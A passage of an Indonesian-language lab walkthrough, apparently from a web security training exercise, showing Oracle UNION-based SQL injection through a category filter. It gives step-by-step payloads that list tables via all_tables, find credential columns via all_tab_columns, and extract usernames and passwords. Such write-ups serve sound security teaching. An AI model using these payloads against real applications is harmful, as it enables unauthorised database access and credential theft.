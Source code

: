 <img width="1313" height="518" alt="image" src="https://github.com/user-attachments/assets/acb0f156-7ac1-471e-82b3-a78a41285b15" />


- Perhatikan penggunaan FROM dual yang wajib di Oracle.
- Jika string 'a' dan 'b' muncul, ini mengonfirmasi kedua kolom dapat menampung data teks.

Langkah 3: Mendapatkan Daftar Semua Tabel

tidak bisa menggunakan information_schema.tables harus menggunakan view Oracle.

- Payload: ' UNION SELECT table_name, NULL FROM all_tables--
- url :
    ```
    .../filter?category=' UNION SELECT table_name, NULL FROM all_tables--
    ```
- Penjelasan:
  - all_tables: Ini adalah data dictionary view di Oracle yang berisi informasi tentang semua tabel yang dapat diakses oleh pengguna saat ini.
  - table_name: Ini adalah nama kolom di dalam all_tables yang berisi nama tabel.
- Hasil: Halaman akan menampilkan daftar nama tabel. Cari nama yang relevan seperti USERS, ACCOUNTS, atau sesuatu yang diacak . 

<img width="1410" height="837" alt="image" src="https://github.com/user-attachments/assets/223dea7b-6a98-441a-a632-9626fc9940e9" />

Langkah 4 & 5: Menemukan Nama Kolom Kredensial

- Payload: ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_MLQCGJ'--
- url :
  ```
    .../filter?category=' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_MLQCGJ'--
  ```
- Penjelasan:
  - all_tab_columns: Ini adalah view Oracle yang berisi informasi tentang kolom di semua tabel.
  - WHERE table_name = 'USERS_MLQCGJ': Kita memfilter hasilnya untuk hanya melihat kolom dari tabel yang kita temukan. 
- Hasil: akan mendapatkan daftar kolom untuk tabel tersebut. Cari nama seperti USERNAME, PASSWORD, atau yang diacak.

<img width="1447" height="434" alt="image" src="https://github.com/user-attachments/assets/725fe1f3-041b-44db-af07-cda9a9426f83" />

Langkah 6 & 7: Mengekstrak Username dan Password

Kita sekarang memiliki semua informasi:
- Nama Tabel: USERS_MLQCGJ
- Nama Kolom Username: USERNAME_VVZZUC
- Nama Kolom Password: PASSWORD_BOPMJC
- Payload: ' UNION SELECT USERNAME_VVZZUC, PASSWORD_BOPMJC FROM USERS_MLQCGJ--
- url :
  ```
    .../filter?category=' UNION SELECT USERNAME_VVZZUC, PASSWORD_BOPMJC FROM USERS_MLQCGJ--
  ```
- Penjelasan: Ini adalah query standar untuk mengambil data dari dua kolom di dalam tabel yang telah kita identifikasi.
- Hasil: Halaman akan menampilkan daftar lengkap username dan password.
